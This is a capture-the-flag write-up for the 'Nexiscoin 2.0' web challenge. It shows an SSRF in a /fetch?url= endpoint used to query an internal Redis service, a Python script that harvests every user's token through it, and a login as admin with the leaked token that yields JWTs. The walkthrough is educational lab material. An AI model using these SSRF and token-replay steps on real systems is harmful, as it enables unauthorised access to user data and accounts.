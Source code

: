 ```yaml
---
layout: Post
format: chall
title: Nexiscoin 2.0
date: 2024-12-07
ctf: TRACS
tags: [Redis]
category: [Web]
---
```

# Nexiscoin 2.0

<a class="back-link" href="../../">< Go back</a>

## Flag 1

### Recon

We are given a website with documentation about it's API, we learn that there are `/admin/` routes that require the correct Access Token, and that there is a whole transaction system with blockchain (This is not a Web3 challenge, it's just a simulation).

we can't do much with it, login/register routes are "disabled by admin", and all the transactions data are read-only.

Looking around some more with burp we see a `GET /fetch?url=http://127.1:7379/GET/total_account HTTP/1.1` being done by the website. The `/GET/total_account` looks like a redis command, let's try to pass the request: `/KEYS/*`.

It works! We get 682 keys, two of them are not API keys but data points: `total_transaction` and `total_account`.

> Flag 1: How many users are registered on the platform?
>
> 680

## Flag 2

The 680 keys appear to be user IDs, let's try to call `/GET/<API_key>` on one of them, we get a hash, that when decoded from base58 gives the following:

```py
{
  'header': {
    'version': 2
  },
  'payload': {
    'user': 'hsalazar@madden-riley.org',
    'type': 'user',
    'permission': 'read,write'
  },
  'signature': '44234ab207b239ab94b2c7c1199b1ee921ff8b213d1e86b6af797d339fdb5227'
}
```

Interesting, we can try to bruteforce the API to fetch all the data from all the users:

```py
import requests
from time import sleep
import json
import base58

print("key;data")

for l in L:
    res = requests.get(f"http://138.195.249.52:5000/fetch?url=http://127.1:7379/GET/{l}")
    if res.status_code != 200:
        print(f"Error for {l}")
        break
    data = json.loads(res.text)
    hash = data['GET'].replace("['", "").replace("']", "")
    decoded = json.loads(base58.b58decode(hash).decode())

    print(f"{l};{decoded}")
    sleep(.1)
```

We this we get [data.csv](data.csv) of all the file data for each user, and their signature.

Looking for anything that stands out we find the `admin` user:

```csv
key;data
token_FjVQph;{'header': {'version': 2}, 'payload': {'user': 'admin@nexiscoin.ev', 'type': 'admin', 'permission': 'read,write'}, 'signature': 'a633755fd62582550c05768e204c0cb324ab72b01442ebb04491ca3be7269414'}
```

> Flag 2: What is the signature of the admin user?
>
> a633755fd62582550c05768e204c0cb324ab72b01442ebb04491ca3be7269414

## Flag 3

From here, the first thing that comes to mind is to try and login as the `admin`, to do so we use the API and try to login as that user, after some trial and error I found that you cna login using a accessToken which is the base58 data we are given for a user:

`POST http://138.195.249.52:5000/api/login` with as a body:

```json
{
  "token": "2ecXF5d83jGAhHH2gjfYSJGifh9NcVo3CmQ584nkUu9kA9KrxmN3JX2USYJaaPV5pE7BMKmG4pw3zRUUDXCQjE3CY2mm3Uk9P8DwM4tujjHKVDjTVDAgcNfWx2DAMTWNiKtM4BYyJeqouup5m4b322W19ecXNy3fGD2iViPeb62pibdB63WKehVq6R5m9voW83HnxtpnfFxsarx9aSundV24WmF7w4mHUeH75PXmKP579qeUKnUBHRw8vbcDmXAEZV6QdWp5nm2
}
```

This gives us:

```json
{
    "access_token1": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMzU4Mjk2OCwianRpIjoiZDIwOGMxNDUtZWY3Mi00MWZkLTk2ZjUtMTY1ODhlOTQxOGNmIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBuZXhpc2NvaW4uZXYiLCJ0eXBlIjoidXNlciJ9LCJuYmYiOjE3MzM1ODI5NjgsImNzcmYiOiIzMDlmZDIwZS1lYzE0LTRiNzAtYTk3Mi0xMDhkNmNiMWUwN2IiLCJleHAiOjE3MzM1ODM4Njh9.WncmQRRCR0dYKMOxxN3wqmeNGX4Rfh1OsybLHMCzIrI",
    "access_token2": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczMzU4Mjk2OCwianRpIjoiODQ0N2VlOWQtNzhiYi00ZWRhLTkyNjItNDRmZTY0ZWRiMjdlIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBuZXhpc2NvaW4uZXYiLCJ0eXBlIjoidXNlciJ9LCJuYmYiOjE3MzM1ODI5NjgsImNzcmYiOiI4MzRmMWJlYy0wN2VhLTQ4NzgtODI0Ni1lZmUyYWEwNDVhZmIifQ.vK_fOWH80yqDGxuJxQQ5gb5AX8hG42XkJzOIGtLSGhE"
}
```

Both have standard header with `HS256`.

`access_token1`:

```json
{
  "fresh": false,
  "iat": 1733582968,
  "jti": "d208c145-ef72-41fd-96f5-16588e9418cf",
  "type": "access",
  "sub": {
    "id": 1,
    "email": "admin@nexiscoin.ev",
    "type": "user"
  },
  "nbf": 1733582968,
  "csrf": "309fd20e-ec14-4b70-a972-108d6cb1e07b",
  "exp": 1733583868
}
```

`access_token2`:

```json
{
  "fresh": false,
  "iat": 1733582968,
  "jti": "8447ee9d-78bb-4eda-9262-44fe64edb27e",
  "type": "access",
  "sub": {
    "id": 1,
    "email": "admin@nexiscoin.ev",
    "type": "user"
  },
  "nbf": 1733582968,
  "csrf": "834f1bec-07ea-4878-8246-efe2aa045afb"
}
```

But from here I attempted to call the `/admin/` routes of the API or even just access transactional data for the user with many different techniques, but nothing worked.

At some point the admins gave us a huge dump of all the sell/buy/transactions in the database (looks like I wasn't the only one struggling with logins 😅)

From here we have to comb trough a ton of data. I wrote some scripts, tried to parse it as much as possible, I always ended up with dead ends, the issue came from the ambiguity of the question:

> Flag 3: Who is the user that made more than 15 transactions of 40000USD.

We are unsure of:

- the format of the flag,
- if 15 is counted as a transaction or not
- if the user has to have made 15 transactions of 40000USD or 15 transactions of each 40000USD or more.

My best shot gave me 18 potential suspects, though the CTFd had a plugin that would also remove points for failed attempts. Loosing 100pts for each try, and the flag only values at 700 points, it was too much risk to try and guess the flag.
